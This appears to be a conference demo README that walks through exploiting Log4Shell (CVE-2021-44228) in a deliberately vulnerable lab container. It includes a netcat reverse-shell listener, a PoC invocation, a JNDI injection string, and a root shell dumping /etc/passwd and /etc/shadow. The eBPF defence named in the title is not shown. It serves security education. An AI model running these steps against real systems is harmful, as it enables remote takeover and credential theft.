 # The Next Log4jshell?! Preparing for CVEs with eBPF!

This repository contains the demo and the corresponding instructions that was presented at
SCALE 20x, Pasadena during the `The Next Log4jshell?! Preparing for CVEs with eBPF!` presentation.

## Environment

Setup Ubuntu machine

## Demo

(Terminal 1): Run the vulnerable web application as a container on the host network, so we will make sure it uses
the Ubuntu VMs external static IP that we setup previously.

```bash
docker run --network host -d quay.io/natalia-2-pilot/log4j-shell-webapp
```

If we open the web browser and type `<external_ip>:8080`, in my case it's `http://34.118.100.209:8080/`,
then we should be able to see the Login page of the vulnerable application:

![Screenshot](log4j_login.png)

(Terminal 2): Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:

```bash
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

(Terminal 1): Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.

```bash
python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

(Terminal 1) You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

(Terminal 2) which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```

(Terminal 2): As a verification we can list the files in the current directory:
```
pwd
/usr/local/tomcat
ls -l
total 124
-rw-r--r-- 1 root root  57011 Jun  9  2016 LICENSE
-rw-r--r-- 1 root root   1444 Jun  9  2016 NOTICE
-rw-r--r-- 1 root root   6739 Jun  9  2016 RELEASE-NOTES
-rw-r--r-- 1 root root  16195 Jun  9  2016 RUNNING.txt
drwxr-xr-x 2 root root   4096 Aug 31  2016 bin
drwxr-xr-x 1 root root   4096 Mar  4 10:21 conf
drwxr-sr-x 3 root staff  4096 Aug 31  2016 include
drwxr-xr-x 2 root root   4096 Aug 31  2016 lib
drwxr-xr-x 1 root root   4096 Mar  4 10:21 logs
drwxr-sr-x 3 root staff  4096 Aug 31  2016 native-jni-lib
drwxr-xr-x 2 root root   4096 Aug 31  2016 temp
drwxr-xr-x 1 root root   4096 Mar  4 10:21 webapps
drwxr-xr-x 1 root root   4096 Mar  4 10:21 work
```

(Terminal 2): Or read the content of `/etc/passwd` or `/etc/shadow`:
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false

cat /etc/shadow
root:*:17043:0:99999:7:::
daemon:*:17043:0:99999:7:::
bin:*:17043:0:99999:7:::
sys:*:17043:0:99999:7:::
sync:*:17043:0:99999:7:::
games:*:17043:0:99999:7:::
man:*:17043:0:99999:7:::
lp:*:17043:0:99999:7:::
mail:*:17043:0:99999:7:::
news:*:17043:0:99999:7:::
uucp:*:17043:0:99999:7:::
proxy:*:17043:0:99999:7:::
www-data:*:17043:0:99999:7:::
backup:*:17043:0:99999:7:::
list:*:17043:0:99999:7:::
irc:*:17043:0:99999:7:::
gnats:*:17043:0:99999:7:::
nobody:*:17043:0:99999:7:::
systemd-timesync:*:17043:0:99999:7:::
systemd-network:*:17043:0:99999:7:::
systemd-resolve:*:17043:0:99999:7:::
systemd-bus-proxy:*:17043:0:99999:7:::
messagebus:*:17044:0:99999:7:::
```